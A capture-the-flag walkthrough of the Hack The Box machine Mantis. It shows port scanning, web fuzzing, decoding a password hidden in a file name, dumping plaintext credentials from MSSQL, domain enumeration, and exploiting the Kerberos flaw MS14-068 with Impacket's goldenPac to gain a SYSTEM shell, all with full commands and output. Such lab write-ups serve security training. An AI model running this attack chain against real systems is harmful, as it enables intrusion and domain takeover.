




---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---

# Mantis


The Mantis box is very unstable dropping every few minutes. Be patient if you attempt it!


## Walkthough Summary

[Mantis](https://app.hackthebox.com/machines/Mantis) is a <mark style="color:red;">hard-rated</mark> box in which we obtain a pair of credentials via a combination of **web fuzzing, decoding** and **MSSQL digging**. Next, we find out that the machine is susceptible to the critical **MS14-068** vulnerability which allows us to escalate privileges and gain **SYSTEM-level access**.

<table><thead><tr><th width="92">Step</th><th width="190">Action</th><th width="134">Tool</th><th>Achieved</th></tr></thead><tbody><tr><td>1</td><td>Web Enumeration</td><td><a href="../../tools/tools/web/fuff.md">ffuf</a></td><td>Obtained local user credentials</td></tr><tr><td>2</td><td>MSSQL Enumeration</td><td><a href="https://vonloxley.github.io/sqsh/">sqsh</a></td><td>Obtained domain user credentials</td></tr><tr><td>3</td><td>Golden Ticket Attack</td><td><a href="https://github.com/fortra/impacket/blob/master/examples/goldenPac.py">goldenPac</a></td><td>Domain Compromise</td></tr></tbody></table>

## Initial Foothold

### Information Gathering

Let's start with a port scan:


```bash
$ sudo nmap -A -T4 10.10.10.52 -open -p-

PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Microsoft DNS 6.1.7601 (1DB15CD4) (Windows Server 2008 R2 SP1)
| dns-nsid:
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15CD4)
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2024-03-23 21:24:33Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2008 R2 Standard 7601 Service Pack 1 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
1337/tcp  open  http         Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: IIS7
1433/tcp  open  ms-sql-s     Microsoft SQL Server 2014 12.00.2000.00; RTM
|_ssl-date: 2024-03-23T21:25:47+00:00; 0s from scanner time.
| ms-sql-info:
|   10.10.10.52:1433:
|     Version:
|       name: Microsoft SQL Server 2014 RTM
|       number: 12.00.2000.00
|       Product: Microsoft SQL Server 2014
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info:
|   10.10.10.52:1433:
|     Target_Name: HTB
|     NetBIOS_Domain_Name: HTB
|     NetBIOS_Computer_Name: MANTIS
|     DNS_Domain_Name: htb.local
|     DNS_Computer_Name: mantis.htb.local
|     DNS_Tree_Name: htb.local
|_    Product_Version: 6.1.7601
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-03-23T21:23:00
|_Not valid after:  2054-03-23T21:23:00
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc        Microsoft Windows RPC
8080/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Tossed Salad - Blog
|_http-open-proxy: Proxy might be redirecting requests
9389/tcp  open  mc-nmf       .NET Message Framing
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc        Microsoft Windows RPC
49167/tcp open  msrpc        Microsoft Windows RPC
49172/tcp open  msrpc        Microsoft Windows RPC
49173/tcp open  msrpc        Microsoft Windows RPC
50255/tcp open  ms-sql-s     Microsoft SQL Server 2014 12.00.2000.00; RTM
| ms-sql-info:
|   10.10.10.52:50255:
|     Version:
|       name: Microsoft SQL Server 2014 RTM
|       number: 12.00.2000.00
|       Product: Microsoft SQL Server 2014
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 50255
| ms-sql-ntlm-info:
|   10.10.10.52:50255:
|     Target_Name: HTB
|     NetBIOS_Domain_Name: HTB
|     NetBIOS_Computer_Name: MANTIS
|     DNS_Domain_Name: htb.local
|     DNS_Computer_Name: mantis.htb.local
|     DNS_Tree_Name: htb.local
|_    Product_Version: 6.1.7601
|_ssl-date: 2024-03-23T21:25:47+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-03-23T21:23:00
|_Not valid after:  2054-03-23T21:23:00

Host script results:
| smb2-security-mode:
|   2:1:0:
|_    Message signing enabled and required
| smb2-time:
|   date: 2024-03-23T21:25:41
|_  start_date: 2024-03-23T21:22:34
|_clock-skew: mean: 34m17s, deviation: 1h30m43s, median: 0s
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb-os-discovery:
|   OS: Windows Server 2008 R2 Standard 7601 Service Pack 1 (Windows Server 2008 R2 Standard 6.1)
|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
|   Computer name: mantis
|   NetBIOS computer name: MANTIS\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: mantis.htb.local
|_  System time: 2024-03-23T17:25:39-04:00
```


Nmap's output came back with a lot of interesting information:

* The Fully Qualified Domain Name (FQDN) is `mantis.htb.local`.&#x20;
* There is are two web servers ports: `1337` and `8080`.
* There are also two Microsoft SQL Server (MSSQL) ports: `1433` and `50255`.
* There are services like Domain Name System (DNS), Kerberos and Lightweight Directory Access Protocol (LDAP) which let us know that this is a Domain Controller (DC).&#x20;
* There is also an Server Message Block (SMB) server.

Before moving forward, we should add the FQDN, the domain, and the hostname to our local DNS file.

```bash
$ grep mantis /etc/hosts
10.10.10.52     mantis htb.local mantis.htb.local
```

### Web Server Enumeration

For enumerating the web ports we will start some fuzzing scans on the background searching for directories, subdomains, and virtual hosts, while we manually explore the web pages on the browser.&#x20;

Let's start with port `1337`. The homepage is just an IIS7 welcome page and we can't do many things with that, but one of our scans returns an interesting result.


```bash
# dirbusting the web server
$ ffuf -u http://10.10.10.52:1337/FUZZ -w directory-list-2.3-medium.txt -ac -c -ic

<SNIP>

orchard            [Status: 500, Size: 3026, Words: 683, Lines: 73, Duration: 2983ms]
secure_notes       [Status: 301, Size: 160, Words: 9, Lines: 2, Duration: 93ms]
```


The `orchard` directory returns a `500` error, while`secure_notes` includes two subdirectories: `web.config` and some developer notes with a bizzare long name ending in `.txt.txt` (Figure 1). The former returns a `400` error and the latter outlines an installation process (Figure 2).

<figure><figcaption><p>Figure 1: The secure_notes directory on port 1337.</p></figcaption></figure>

<figure><figcaption><p>Figure 2: Developer installation notes.</p></figcaption></figure>

The developer let us know that:

1. There is a user called `admin`.
2. There is a database called `orcharddb`.

The long string on the file name looks like some form of encoding, and by placing it into [CyberChef ](https://gchq.github.io/CyberChef/)is automatically identified and decoded to plaintext (Figure 3 & 4).

<figure><figcaption><p>Figure 3: CyberChef automatically recognizes the string as base64 encoded and decodes it. </p></figcaption></figure>

<figure><figcaption><p>Figure 4: CyberChef automatically identifies the decoded string as hex and procceeds to decode it once again to plaintext.</p></figcaption></figure>

We can confirm the results on our terminal, save the password into a file, and validate the credentials.

```bash
# base64 decoding and hex to ASCII convertion
$ echo "NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx" | base64 -d | xxd -r -p
m$$ql_S@_P@ssW0rd!
# writing the password into a file
$ echo "m\$\$ql_S@_P@ssW0rd!" > admin_pass
# validating the credentials
$ nxc mssql 10.10.10.52 -u admin -p admin_pass --local-auth
MSSQL       10.10.10.52     1433   MANTIS           [*] Windows 7 / Server 2008 R2 Build 7601 (name:MANTIS) (domain:MANTIS)
MSSQL       10.10.10.52     1433   MANTIS           [+] admin:********
```

### MSSQL Enumeration

We can try connecting to the MSSQL server and see what's inside.

```bash
# connecting to the MSSQL server
$ sqsh -S 10.10.10.52 -U admin -P 'm$$ql_S@_P@ssW0rd!' -h

# list all databases
1> SELECT name FROM master.dbo.sysdatabases
2> go
        master
        tempdb
        model
        msdb
        orcharddb
# list all tables from the orcharddb database
1> SELECT * FROM orcharddb.INFORMATION_SCHEMA.TABLES
2> go
        <SNIP>
        blog_Orchard_Users_UserPartRecord
        blog_Orchard_Roles_RolesPermissionsRecord
        blog_Orchard_Roles_UserRolesPartRecord
        <SNIP>
# use the orcharddb database
1> use orcharddb
2> go
# select all information from the specified table
1> SELECT * FROM blog_Orchard_Users_UserPartRecord
2> go
           2
        admin
        admin
        AL1337E2D6YHm0iIysVzG8LA76OozgMSlyOJk1Ov5WCGK+lgKY6vrQuswfWHKZn2+A==
        Hashed
        PBKDF2
        UBwWF1CQCsaGc/P7jIR/kg==
        Sep  1 2017 01:44PM Sep  1 2017 02:03PM Sep  1 2017 02:06PM
          15
        James
        james@htb.local
        james
        J@m3s_P@ssW0rd!
        Plaintext
        Plaintext
<SNIP>
```

We have two pair of credentials:

1. `james:J@m3s_P@ssW0rd!`
2. `admin:AL1337E2D6YHm0iIysVzG8LA76OozgMSlyOJk1Ov5WCGK+lgKY6vrQuswfWHKZn2+A==`

The `admin`'s password seems to be encrypted with the [PBKDF2](https://en.wikipedia.org/wiki/PBKDF2) algorithm, thus, we can't directly decode it. So let's see what user `james` can offer us. If `james` is a domain user, we can start enumerating the `HTB.LOCAL` domain.

<pre class="language-bash"><code class="lang-bash"># write jame's password to a file
$ echo "J@m3s_P@ssW0rd!" > james_pass
<strong># james is not a local user
</strong>$ nxc smb 10.10.10.52 -u james -p james_pass --local-auth
SMB         10.10.10.52     445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:MANTIS) (signing:True) (SMBv1:True)
SMB         10.10.10.52     445    MANTIS           [-] MANTIS\james:******** STATUS_LOGON_FAILURE
# james is a valid domain user
$ nxc smb 10.10.10.52 -u james -p james_pass
SMB         10.10.10.52     445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.52     445    MANTIS           [+] htb.local\james:********
# enumerating domain's users, shares, and groups
$ nxc smb 10.10.10.52 -u james -p james_pass --users --shares --groups
SMB         10.10.10.52     445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.52     445    MANTIS           [+] htb.local\james:********
SMB         10.10.10.52     445    MANTIS           [*] Enumerated shares
SMB         10.10.10.52     445    MANTIS           Share           Permissions     Remark
SMB         10.10.10.52     445    MANTIS           -----           -----------     ------
SMB         10.10.10.52     445    MANTIS           ADMIN$                          Remote Admin
SMB         10.10.10.52     445    MANTIS           C$                              Default share
SMB         10.10.10.52     445    MANTIS           IPC$                            Remote IPC
SMB         10.10.10.52     445    MANTIS           NETLOGON        READ            Logon server share
SMB         10.10.10.52     445    MANTIS           SYSVOL          READ            Logon server share
SMB         10.10.10.52     445    MANTIS           [*] Trying to dump local users with SAMRPC protocol
SMB         10.10.10.52     445    MANTIS           [+] Enumerated domain user(s)
SMB         10.10.10.52     445    MANTIS           htb.local\Administrator                  Built-in account for administering the computer/domain
SMB         10.10.10.52     445    MANTIS           htb.local\Guest                          Built-in account for guest access to the computer/domain
SMB         10.10.10.52     445    MANTIS           htb.local\krbtgt                         Key Distribution Center Service Account
SMB         10.10.10.52     445    MANTIS           htb.local\james
SMB         10.10.10.52     445    MANTIS           [+] Enumerated domain group(s)
SMB         10.10.10.52     445    MANTIS           SQLServer2005SQLBrowserUser$MANTIS       membercount: 0
SMB         10.10.10.52     445    MANTIS           DnsUpdateProxy                           membercount: 0
SMB         10.10.10.52     445    MANTIS           DnsAdmins                                membercount: 0
&#x3C;SNIP>
SMB         10.10.10.52     445    MANTIS           Account Operators                        membercount: 0
SMB         10.10.10.52     445    MANTIS           Server Operators                         membercount: 0
SMB         10.10.10.52     445    MANTIS           RAS and IAS Servers                      membercount: 0
SMB         10.10.10.52     445    MANTIS           Group Policy Creator Owners              membercount: 1
&#x3C;SNIP>
SMB         10.10.10.52     445    MANTIS           Domain Admins                            membercount: 1
SMB         10.10.10.52     445    MANTIS           Cert Publishers                          membercount: 0
SMB         10.10.10.52     445    MANTIS           Enterprise Admins                        membercount: 1
SMB         10.10.10.52     445    MANTIS           Schema Admins                            membercount: 1
&#x3C;SNIP>
SMB         10.10.10.52     445    MANTIS           Cryptographic Operators                  membercount: 0
&#x3C;SNIP>
SMB         10.10.10.52     445    MANTIS           Remote Desktop Users                     membercount: 1
SMB         10.10.10.52     445    MANTIS           Replicator                               membercount: 0
SMB         10.10.10.52     445    MANTIS           Backup Operators                         membercount: 0
SMB         10.10.10.52     445    MANTIS           Print Operators                          membercount: 0
&#x3C;SNIP>
SMB         10.10.10.52     445    MANTIS           Administrators                           membercount: 3
</code></pre>

NetExec's output let us know that:

1. `james` is a domain and not a local user.
2. SMB includes just the default shares.
3. There are no other users than `james` and the default accounts.
4. There are some interesting domain groups but we can't do anything with them at the moment.

## Privilege Escalation

### MS14-068

We know from our Nmap scan that the operating system is **Windows Server 2008 R2 Standard 7601 Service Pack 1**. Upon searching for "_Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 exploit domain controller"_ the [MS14-068 (Critical)](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2014/ms14-068) vulnerability comes up which is a **vulnerability in Kerberos that could allow elevation of privilege**. We can use Impacket's [goldenPac](https://github.com/fortra/impacket/blob/master/examples/goldenPac.py) script to exploit this flaw.

```
$ /usr/local/bin/goldenPac.py HTB.LOCAL/james@mantis
/usr/local/bin/goldenPac.py:4: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  __import__('pkg_resources').run_script('impacket==0.12.0.dev1+20231027.123703.c0e949fe', 'goldenPac.py')
Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

Password:
[*] User SID: S-1-5-21-4220043660-4019079961-2895681657-1103
[*] Forest SID: S-1-5-21-4220043660-4019079961-2895681657
[*] Attacking domain controller mantis.htb.local
[*] mantis.htb.local found vulnerable!
[*] Requesting shares on mantis.....
[*] Found writable share ADMIN$
[*] Uploading file FqgDtbBE.exe
[*] Opening SVCManager on mantis.....
[*] Creating service odQI on mantis.....
[*] Starting service odQI.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
# check context
C:\Windows\system32>whoami
nt authority\system
# grab the first flag
C:\Windows\system32>type c:\users\james\desktop\user.txt
e70<SNIP>7a0
# grab the second flag
C:\Windows\system32>type c:\users\administrator\desktop\root.txt
836<SNIP>e75
```

